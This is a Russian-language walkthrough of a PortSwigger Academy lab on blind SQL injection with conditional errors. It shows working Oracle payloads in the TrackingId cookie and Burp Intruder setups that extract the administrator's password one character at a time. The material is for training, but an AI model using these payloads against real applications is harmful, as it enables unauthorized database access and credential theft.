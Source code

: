 Перейдем на форму логина на уязвимый ресурс, и найдем данный `GET` запрос в `Proxy` -> `HTTP history`
```
GET /login
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/8.%20Blind%20SQL%20injection%20with%20conditional%20errors/pics%20for%20walktrough/1.png)
Модифицируем наш запрос, добавив `' AND 1=1 --` в поле `Cookie`, и увидим, что нам выдало `200 респонс`, а значит, сервер обработал наш запрос, и `SQL-инъекция возможна`
```
Cookie: TrackingId=fBwHDTGFiN40JZO1' AND 1=1 --;
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/8.%20Blind%20SQL%20injection%20with%20conditional%20errors/pics%20for%20walktrough/3.png)
Далее воспользуемся условиями case для решшения лабораторной работы
Суть в том, что можно заставить приложение вернуть другой ответ в зависимости от того, произошла ли ошибка SQL. Вы можете изменить запрос так, чтобы он вызывал ошибку базы данных только в том случае, если условие истинно. Очень часто необработанная ошибка, выданная базой данных, приводит к некоторым изменениям в ответе приложения, например к появлению сообщения об ошибке. Это позволяет вам сделать вывод об истинности введенного состояния.
```
Cookie: TrackingId=fBwHDTGFiN40JZO1' AND (SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual)='a' --;
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/8.%20Blind%20SQL%20injection%20with%20conditional%20errors/pics%20for%20walktrough/4.png)

Воспользуемся знанием о наличии УЗ `administrators` и таблицы `users`, в которой есть поля `username`, `password`. И выберем очевидно невероятную длину пароля, чтобы вызвать ошибку во внутреннем условии CASE
```
Cookie: TrackingId=fBwHDTGFiN40JZO1' AND (SELECT CASE WHEN LENGTH(password)>100 THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator')='a' --; 
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/8.%20Blind%20SQL%20injection%20with%20conditional%20errors/pics%20for%20walktrough/5.png)

А вот следующий запрос не увенчается успехом 
```
Cookie: TrackingId=fBwHDTGFiN40JZO1' AND (SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator')='a' --; 
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/8.%20Blind%20SQL%20injection%20with%20conditional%20errors/pics%20for%20walktrough/6.png)
Давайте отправим данный запрос в `Intruder` и узнаем размер пароля УЗ `administrator`.

Выберем тип атаки - `Sniper`
```
Cookie: TrackingId=fBwHDTGFiN40JZO1' AND (SELECT CASE WHEN LENGTH(password)>§1§ THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator')='a' --; 
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/8.%20Blind%20SQL%20injection%20with%20conditional%20errors/pics%20for%20walktrough/7.png)
В конфигах к атаке возьмем диапазон от проверки пароля от 1 до 30
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/8.%20Blind%20SQL%20injection%20with%20conditional%20errors/pics%20for%20walktrough/8.png)
Запустим атаку, и посмотрим с какой длины пароля нам возвращается не 500 респонс статус код, а 200

Видим, что в `пароле 20 символов`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/8.%20Blind%20SQL%20injection%20with%20conditional%20errors/pics%20for%20walktrough/9.png)
Отлично, теперь мы знаем длину пароля. Осталось дело за малым - узнать сам пароль

Для этого вернемся в Repeater и сконфигурируем запрос для того, чтобы узнать конкретный символ пароля на первой позиции пароля с помощью метода `SUBSTR`
```
Cookie: TrackingId=fBwHDTGFiN40JZO1' AND (SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator')='a' --; 
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/8.%20Blind%20SQL%20injection%20with%20conditional%20errors/pics%20for%20walktrough/10.png)
Отправим запрос в `Intruder`

Чтобы брутить сразу по 2-ум параметрам, необходимо выбрать тип атаки - `Cluster Bomb`
```
Cookie: TrackingId=fBwHDTGFiN40JZO1' AND (SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator')='a'
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/8.%20Blind%20SQL%20injection%20with%20conditional%20errors/pics%20for%20walktrough/11.png)
В первом пэйлоаде выберем `Numbers`, так как мы знаем что пароль у нас 20 символов, и нужно перебрать каждый из них
И соответсвенно поставим разброс чисел от 1 до 20.
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/8.%20Blind%20SQL%20injection%20with%20conditional%20errors/pics%20for%20walktrough/12.png)
Во втором пэйлоаде выберем `Simple list`, так как у нас есть конкретные символы, которые могут входить в состав пароля
В качестве этих символов выберем семейство символов `a-z` и `0-9`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/8.%20Blind%20SQL%20injection%20with%20conditional%20errors/pics%20for%20walktrough/13.png)
И чтобы нам было удобнее обрабатывать результат - на вкладке `Settings` выберем `Grep-match` и добавим туда значение `Internal server error` который при нашем условии будет означать, что мы нашли верный символ от пароля
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/8.%20Blind%20SQL%20injection%20with%20conditional%20errors/pics%20for%20walktrough/14.png)
Запустим атаку и отсортируем по полю `Internal server error`

И получим, что найденный пароль - `diwr6sfwdftidsfmnalo`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/8.%20Blind%20SQL%20injection%20with%20conditional%20errors/pics%20for%20walktrough/15.png)

Залогинимся с кредами `administrator:diwr6sfwdftidsfmnalo` и получим уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/8.%20Blind%20SQL%20injection%20with%20conditional%20errors/pics%20for%20walktrough/16.png)
